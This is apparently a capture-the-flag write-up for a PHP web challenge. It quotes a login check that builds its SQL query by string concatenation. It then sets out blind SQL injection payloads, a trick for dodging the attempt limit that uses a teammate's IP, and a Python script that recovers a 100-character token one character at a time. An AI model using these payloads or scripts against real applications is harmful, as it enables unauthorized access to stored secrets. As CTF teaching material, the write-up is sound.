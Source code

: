 # Beginner's Luck

Web, 989 points.

## Description

*Can you help me to win the flag ? I bet you can't ..*

We were given a website along with its sourcecode (PHP).

## Solution

The site greets us with a page in which we can click on a "Generate" button. Everytime we click on it, a random token is generated, and the
site says "Better luck next time!". We are given 10 attempts ; after those, the site says "Max Attempts Reached" and our session is reset.

![](luck1.png)

Taking a look at the source, here is what we can read.

```HTML
<form id="form" method="POST" action="" >
	
<input name="val" type="hidden" id="val">

</form>
<script type="text/javascript">

function generate_random_string(string_length){
    let random_string = '';
    let random_ascii;
    for(let i = 0; i < string_length; i++) {
        random_ascii = Math.floor((Math.random() * 25) + 97);
        random_string += String.fromCharCode(random_ascii)
    }
    return random_string
}

function generate()
{
    const input=document.getElementById("val");
    input.value=generate_random_string(100);
    document.getElementById("form").submit();
}
</script>
<div class="buttonHolder">
<input type="button" name="b1" value="Generate" onclick="generate()">
</div>
```

Every time we click on the button, our client generates the random 100-character token, and then sends it via POST. Our goal is to find the correct token.

Let's take a look at the source files we are given : [index.php](index.php), [play.php](play.php) and [reset.php](reset.php).

When we first connect to [index.php](index.php), our session is initialized and a random 100-character token is created for our session. We are not given the details of the generator function, though, but since they make our client generate random tokens on lowercase letters, we can infer the session token is the same. Right?

```php
if (!isset($_SESSION['count']))
{
	$_SESSION['count'] = 0;
	$pass = generateRandomToken(100);
	$ip = $_SERVER['REMOTE_ADDR'];
	$sql = "INSERT INTO users (ip, token) VALUES (?,?)";
	$stmt = $pdo->prepare($sql);
	$stmt->execute([$ip, $pass]);
}
```

A table `users` stores (ip, token) couples. Then in [play.php](play.php), when we send a token via POST :

```PHP
if (isset($_POST["val"]))
	{
	if ($_SESSION['count'] >= $max_count)
		{
		header("Location:reset.php");
		die();
		}

	$_SESSION['count']++;
	try
		{
		$sql = "SELECT * FROM users WHERE ip='" . $_SERVER['REMOTE_ADDR'] . "' AND token='" . $_POST['val'] . "'";
		$result = $conn->query($sql);
		if ($result)
			{
			$row = $result->fetch_assoc();
			}
		  else
			{
			$row = false;
			}
		}

	catch(PDOException $e)
		{

		// echo $e;

		}

	if ($row)
		{
		echo "<h1>True</h1>";
		echo "<div><h4>Click <a href='flag.php'>here</a> and use the token to get your flag</h4></div>";
		}
	  else
		{
		echo "<h4>Better luck next time !</h4>";
		}

	$currentValue = $_POST['val'];
	}
```

An SQL query checks if there exists an entry for our (ip, token). If there is, we are invited to input our token in a page called flag.php (which is not present in the sources), so that we can claim our flag.

The following line is prone to a very obvious SQL injection.

```PHP
$sql = "SELECT * FROM users WHERE ip='" . $_SERVER['REMOTE_ADDR'] . "' AND token='" . $_POST['val'] . "'";
```

We don't know the exact output of the SQL request, so we cannot run a "UNION" type of SQL injection, but we do know whether it returns something or not.
Indeed, when there exists such a couple (ip, token), the database returns at least a row and the site displays "True", "Click here and use the token to get your flag".
Otherwise, it displays "Better luck next time". We can use this information to run a blind SQL injection.

Let's check by sending a pretty basic injection first in `$_POST['val']` :

```
' OR '1'='1
```

The site returns "True". It worked! Let's try to run another injection :

```
' OR (ip='our ip' AND length(token)=100) AND '1'='1
```

It works too: the token is 100 characters long. Good. Now we're able to write a small script that will brute-force each character individually thanks to the SUBSTRING function of MySQL.

There's an issue, though. Our session is reset and destroyed after 10 requests. We can't find a 100-character token with only 10 binary requests...

Our solution was to use two different IPs with a teammate. One person would be running the injection, but looking for the token associated to the other person's IP. Making sure that other person kept their session alive, they could then submit the token without increasing the number of attempts at all.

Our payload looks like this :

```
' OR (ip='teammate IP' AND substring(token,[i],1)='[c]') AND '1'='1
```

Where i is between 1 and 100, and c in the lowercase letters charset. Except it was not the case. We ran the injection once and found many characters in the token that were actually not letters.
We then ran the injection again with lowercase letters + digits, and it worked. Those bastards had fooled us with that javascript generator! :D

Here is the exploit in Python.

```python
import requests

url = "https://web4.ctfsecurinets.com/play.php"

injection = "' OR (ip='teammate IP' AND substring(token,%s,1)='%s') AND '1'='1"
token = ''

for i in range(1, 101):
  for b in 'abcdefghijklmnopqrstuvwxyz0123456789':
    # Resetting the session and requesting a new one, just in case.
    # The exploit would have been faster by removing this.
    requests.get(url.replace('play', 'reset'))
    s = requests.session()
    s.get(url.replace('play', 'index'))
    c = s.post(url, data={'val': injection % (i, b)}).content
    if b'>True<' in c:
      token += b
      print(i, token)
      break
```

And we get our friend's token, for instance, `qx9tiuvxniog4qfkulftatkvysgiosw4qwppqcevks1f98hujnejxp6w8dvnvsjdfytw0xicha9h9g1it7simo4lrryea99gys2q`.

Input it in flag.php and get the flag. Enjoy!

Note: the exploit could have been much faster if we tested bits in the token instead of looping through a charset. Since there are 36 characters, which is approximately 5 bits, we could have been able to retrieve a character using only 6 requests instead of 36 worst case scenario. The payload would have been more complicated though, running some conversions and stuff.

